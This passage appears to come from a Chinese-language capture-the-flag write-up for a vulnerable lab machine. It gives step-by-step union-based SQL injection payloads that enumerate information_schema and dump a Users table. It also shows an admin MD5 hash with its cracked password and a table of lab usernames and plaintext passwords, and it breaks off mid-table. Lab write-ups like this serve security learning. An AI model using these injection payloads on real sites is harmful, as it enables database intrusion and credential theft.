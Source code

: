        ```python
        search='or'1'='1' order by 6 %23 # 字段数为6
        search='or'1'='0' union select 1,2,3,4,5,6 %23 # 显示位，全都可以显示
        search='or'1'='0' union select user(),2,3,version(),database(),6 %23 # dbuser@localhost ，10.3.17-MariaDB-0+deb10u1 ，Staff
        
        ```
        
    - 表名
        
        ```python
        search='or'1'='0' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database() %23
        ```
        
        `StaffDetails,Users` ，我们需要`Users` 表的数据
        
    - 列名
        
        ```python
        search='or'1'='0' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_schema=database() and table_name='Users' %23
        ```
        
        `UserID,Username,Password`
        
    - 数据
        
        ```python
        search='or'1'='0' union select group_concat('~',Username,':',Password,'~'),2,3,4,5,6 from Users %23
        ```
        
        `admin:856f5de590ef37314e7c3bdf6f8a66dc` 拿到`admin`账户，密码看着像是`MD5`加密后的，使用网站破解出来为`transorbital1`
        
    - 顺便再把`users`库的`UserDetails` 表数据也扒下来
        
        ```python
        +----+------------+---------------+---------------------+-----------+-----------+
        | id | lastname   | password      | reg_date            | username  | firstname |
        +----+------------+---------------+---------------------+-----------+-----------+
        | 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
        | 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
        | 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
        | 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
        | 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
        | 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
        | 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
        | 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
        | 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
        | 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
        | 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
        | 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
        | 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
        | 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
        | 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
        | 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |